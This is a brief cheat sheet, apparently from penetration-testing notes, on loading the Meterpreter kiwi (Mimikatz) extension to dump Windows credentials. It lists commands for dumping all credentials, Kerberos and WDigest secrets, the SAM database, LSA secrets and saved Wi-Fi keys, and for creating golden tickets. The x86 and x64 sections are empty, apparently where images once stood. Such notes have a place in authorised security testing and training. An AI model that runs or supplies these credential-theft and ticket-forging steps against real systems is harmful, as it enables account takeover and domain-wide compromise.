

> load kiwi

=> kiwi dumps credentials
System and meterpreter Arch must be the same
: does not work with x64 and x86 !
x86 :

x64 :
Useful commands :
> creds_all
> creds_kerberos
> creds_wdigest
> golden_ticket_create
> wifi_list
> lsa_dump_sam
> lsa_dump_secrets